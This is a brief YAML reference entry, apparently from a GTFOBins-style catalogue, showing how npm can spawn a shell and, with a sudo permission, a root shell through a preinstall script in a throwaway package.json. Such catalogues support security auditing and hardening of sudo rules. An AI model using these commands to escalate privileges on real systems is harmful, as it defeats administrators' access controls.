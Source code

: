 ```yaml
---
functions:
  shell:
    - code: npm exec /bin/sh
    - code: |
        TF=$(mktemp -d)
        echo '{"scripts": {"preinstall": "/bin/sh"}}' > $TF/package.json
        npm -C $TF i
  sudo:
    - code: |
        TF=$(mktemp -d)
        echo '{"scripts": {"preinstall": "/bin/sh"}}' > $TF/package.json
        sudo npm -C $TF --unsafe-perm i
---
```

